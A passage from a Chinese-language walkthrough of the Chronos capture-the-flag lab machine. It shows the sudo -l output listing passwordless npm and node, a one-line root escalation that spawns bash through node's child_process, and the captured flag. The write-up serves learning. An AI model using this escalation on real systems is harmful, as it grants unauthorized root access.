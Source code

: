     ```python
    imera@chronos:~$ cat user.txt
    byBjaHJvbm9zIHBlcm5hZWkgZmlsZSBtb3UK
    ```
    
5. 查看权限
    
    ```python
    imera@chronos:/opt/chronos-v2/backend$ sudo -l
    sudo -l
    Matching Defaults entries for imera on chronos:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User imera may run the following commands on chronos:
        (ALL) NOPASSWD: /usr/local/bin/npm *
        (ALL) NOPASSWD: /usr/local/bin/node *
    ```
    
6. 可以进行提权了
    
    > https://www.huangmj.com/17116743651246.html#41-sudo-node
    > 
    
    ```python
    imera@chronos:~$ sudo node -e "require('child_process').spawn('/bin/bash',{stdio:[0,1,2]})"
    id
    uid=0(root) gid=0(root) groups=0(root)
    ```
    
    获得root！！！！
    
7. 读取`flag` 文件
    
    ```python
    # user.txt
    byBjaHJvbm9zIHBlcm5hZWkgZmlsZSBtb3UK
    ```
    

## 总结

难点在提权到`imera`用户，以及发现`web`突破点的思路，还得学习Node.js的原型链污染（我还没学），最后的提权到`root`也是之前没有尝试过的